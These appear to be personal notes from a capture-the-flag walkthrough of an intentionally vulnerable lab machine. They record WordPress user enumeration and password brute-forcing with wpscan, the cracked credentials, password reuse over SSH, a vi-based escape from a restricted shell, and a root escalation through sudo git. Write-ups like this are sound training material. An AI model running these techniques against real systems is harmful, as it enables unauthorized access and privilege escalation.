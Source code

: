 #found first flag on the cms:
	Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
	More passwords is always better, but sometimes you just can’t win them all.
	Log in as one to see the next flag.
	If you can’t find it, log in as another.

#used wpscan to enumerate. found 3 users, admin, tom, jerry

#used wpscan to brute force found pass of tom and jerry:
	[!] Valid Combinations Found:
	 | Username: jerry, Password: adipiscing
	 | Username: tom, Password: parturient

#found flag 2 as a page:
	If you can't exploit WordPress and take a shortcut, there is another way.
	Hope you found another entry point.

#got in uing same pass in ssh

#in the restricted shel. used thsi to break out:
	vi
	:set shell-/bin/bash
	:shell

#got flag 3 using the less command because cat and head were not available:
	Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

#just went to jerry home directory and got flag 4:
	Good to see that you've made it this far - but you're not home yet. 
	You still need to get the final flag (the only flag that really counts!!!).  
	No hints here - you're on your own now.  :-)
	Go on - git outta here!!!!

#but for priv esc we need jerry. used this command to use su and sudo:
	export PATH=/bin:/usr/bin:$PATH

#now su to jerry using the same pass

#now sudo -l

#git from gtfobins
	sudo git branch --help config
	!/bin/sh

#got root!
	cat final-flag.txt
	 __    __     _ _       _                    _ 
	/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
	\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
	 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
	  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


	Congratulatons!!!

	A special thanks to all those who sent me tweets
	and provided me with feedback - it's all greatly
	appreciated.

	If you enjoyed this CTF, send me a tweet via @DCAU7.

